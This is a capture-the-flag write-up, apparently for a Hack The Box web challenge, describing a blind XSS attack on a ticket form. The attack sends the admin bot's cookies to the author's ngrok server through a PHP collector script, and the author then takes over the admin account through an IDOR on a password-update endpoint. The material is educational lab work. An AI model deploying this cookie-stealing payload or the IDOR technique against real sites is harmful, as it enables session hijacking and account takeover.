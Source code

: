 ## Description
"The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?"

Since this is a web challenge so first thing I did is bruteforcing the directories with dirsearch
![dirs](https://user-images.githubusercontent.com/43896992/169715190-b00eb4de-88c4-4694-9639-41721f1d927b.png)

in the login page the default credentials doesn't work, it gives me "INVALID USERNAME OR PASSWORD!" message.

I found a ticket submitting page in the index of the site for reporting issues to the admin
![index](https://user-images.githubusercontent.com/43896992/169715342-651fabfc-2db9-4cfe-bc72-51aa8fd8e5e0.png)

when I type anything it gives me a message says an admin will review my ticket, but unfortunately it doesn't give me any feedback.

first thing that came into my head is it vulnerable to blind xss? can I seal the admin's cookies?, so I started to build the environment for blind xss exploitation to forward the result to my own server.

I made a get.php file that saves the cookies into a jar.txt file
```
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen('jar.txt' , 'a');
fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```
then I made a local php server on port 80 with ```php -S localhost:80``` and I tunneled it out to receive the connection from the vulnerable site with ngrok.

I crafted a blind xss payload ```<script> var i = new Image(); i.src="http://MYSITE.ngrok.io/get.php?q="+document.cookie; </script>```
and I acctually recieved a connection on my server

![ngrok](https://user-images.githubusercontent.com/43896992/169716208-7b2ae392-77a7-47c1-b570-8f41fd3bb0be.png)


The jar.txt file wasn't really useful because I already got the admin's cookies from the request but at least it saved it in a file for me
![jwt](https://user-images.githubusercontent.com/43896992/169716399-46748c7f-0fc3-4780-aa88-2c88df50ed0a.png)

**Cookies:**```session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4NzEzMjB9.iTg4YroMbHGEaFrDZH8k5t4m9hHPN2nEkRQW31HMrvs```

it's a jwt, so I tried to to decode it in [jwt.io](https://jwt.io) and it turned out a moderator's cookie
![jwt io](https://user-images.githubusercontent.com/43896992/169716515-b5057b23-3770-4764-8359-10f67058d88a.png)

I injected it and now I'm a moderator
![mod](https://user-images.githubusercontent.com/43896992/169717290-e723c934-478f-4f6b-b7aa-b92819509a7b.png)

but there's nothing useful in the page, I'm not fully privileged; so, I need to escalate my user to admin not just a moderator.

Since this is another user with another session I thought I may now access the 302 pages and this attempt succeeded and it's now 200, I tried to access ```/settings``` and I found a password changing page, now I can grab the endpoint which is responsible for password changing.
![pass](https://user-images.githubusercontent.com/43896992/169717505-081da6de-4ad2-4800-bf10-2e75b1df838e.png)
![modpass](https://user-images.githubusercontent.com/43896992/169717566-408439ef-c4fb-4542-8fed-1e0be60d0671.png)

the endpoint is ```/api/users/update``` with POST method.

I tried to change the jwt ```username``` value to ```admin``` and use it as a cookie but it didn't work
![Ajwt](https://user-images.githubusercontent.com/43896992/169718032-ec4136af-3ede-4255-9404-4ff587bbdf96.png)

then I tried to use it in the paswword resetting request and it didn't word too, it was a poor idea in the first place..
![Fadmin](https://user-images.githubusercontent.com/43896992/169718195-cab5bb47-ced1-4786-b000-86a708c54d55.png)

I found a parameter ```uid``` that have value ```100```.
mostly in web apps the admin's uid is 1 or 0 so I thought about idor attack, and if it wasn't 1,0 I would bruteforce it with the intruder until I find the admin's uid

So I changed the value of the ```uid``` to ```1``` and it fortunately worked
![adminspass](https://user-images.githubusercontent.com/43896992/169717743-9496fcfc-458d-4e6d-b8a2-768186821608.png)

Then I logged with the new password in the ```/login``` page and I finally got the flag
<sub>it was in the ```/admin``` page but it was unaccessable unless you're the admin</sub>
![flag](https://user-images.githubusercontent.com/43896992/169717857-c7672396-c9ed-48db-bb52-d2cf2062d701.png)
### ```HTB{x55_4nd_id0rs_ar3_fun!!}```
